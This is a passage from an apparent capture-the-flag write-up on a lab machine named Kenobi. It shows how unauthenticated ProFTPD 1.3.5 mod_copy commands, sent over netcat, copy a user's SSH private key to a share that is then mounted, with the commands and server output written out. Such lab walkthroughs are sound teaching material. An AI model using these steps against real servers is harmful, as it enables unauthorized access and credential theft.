 ```
[anonymous]
   path = /home/kenobi/share
   browseable = yes
   read only = yes
   guest ok = yes
```

### Exploiting ProFtpd

Now that we have some knowledge of the Samba shares and FTP service, we will try to exploit the ProFTPD service running on port 21. ProFTPD is an open-source FTP server, used on Windows and Unix systems. Rapid7 has a page about exploiting the mod_copy module of ProFTPD 1.3.5 [here](https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd_modcopy_exec/). This module implements the commands ```SITE CPFR``` and ```SITE CPTO```, which allow for copying files from one location to another on the server. Read more about the mod_copy module [here](http://www.proftpd.org/docs/contrib/mod_copy.html). Turns out these commands do not require authentication to use.

We can copy ```kenobi```’s private SSH key (stored in ```/home/kenobi/.ssh/id_rsa```) to the mount point, ```/var```. We will then mount this drive to our own machine, and access the private key.

We connect to the service with netcat and copy the private key to the mount point.
##### Commands:
>nc [target] 21
<br>SITE CPFR /home/kenobi/.ssh/id_rsa
<br>SITE CPTO /var/tmp/id_rsa

```
└─$ nc [target] 21                                               
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [ [target] ]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

The file has been successfully copied. We now mount the ```/var``` directory to our machine.

##### Commands:
>mkdir mnt/kenobi
<br>mount [target]:/var mnt/kenobi (requires sudo privileges)
<br>ls mnt/kenobi/tmp

```
└─$ sudo mkdir mnt/
└─$ sudo mount [target]:/var /mnt/kenobi
└─$ cd kenobi                                          
└─$ ls tmp      
id_rsa
(...)
```

We can see ```id_rsa``` in our own system - this is ```kenobi```’s SSH private key!

### Initial Access to Kenobi
